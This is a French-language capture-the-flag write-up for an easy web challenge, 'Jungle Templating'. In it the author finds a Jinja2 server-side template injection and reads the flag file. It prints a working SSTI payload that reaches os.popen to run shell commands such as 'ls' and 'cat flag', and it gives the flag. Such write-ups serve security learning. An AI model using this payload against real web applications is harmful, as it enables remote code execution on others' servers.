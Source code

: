 

# Jungle Templating



- Category: `Web`
- Points: `100` => `100`
- Difficulty: Easy
- Solves: `293`


**Description**

>Challenge link : http://206.189.236.145:5000/
>N.B: There is no need to bruteforce anything.
>
> Auteur : Typhlos#9037
>

**Note**
-J'ai raté le first blood de ce challenge de peu en le flaggant en 4ème :( 

**Attachments**

- [`capture-reseau.pcapng`](https://drive.google.com/drive/folders/1MMs6CiIiBnEYUCaJyMGQqijCeW4oVdZj)

### :book: Introduction

**Overview**
 
Le site possède une unique fonctionnalité: 
  - Permettre de renter un nom
  - Retourner Hi, nom

Je pense tout de suite a une SSTI est de fait si on donne comme nom {{1+1}} le site nous retourne Hi, 2


**Exploit**

On peut voir dans le code source que c'est un serveur python donc c'est une  SSTI avec Jinja2. Je vais chercher
internet un payload permettant d'executer des commandes bash. Merci a default de Root-Me pour son payload:
```{{ self._TemplateReference__context.joiner.__init__.__globals__.os.popen('lacommande').read() }} ```

Grace a cette commande je commence par faire un ls et le serveur me retourne __pycache__ app.py flag. Après 
un effort mental considérable je déduis que le fichier qui nous intéresse et le fichier flag et je fait
```{{ self._TemplateReference__context.joiner.__init__.__globals__.os.popen('cat flag').read() }} ```
pour que le serveur me retourne le flag:


BDSEC{Y3Y_7H1515_7H3_F146}





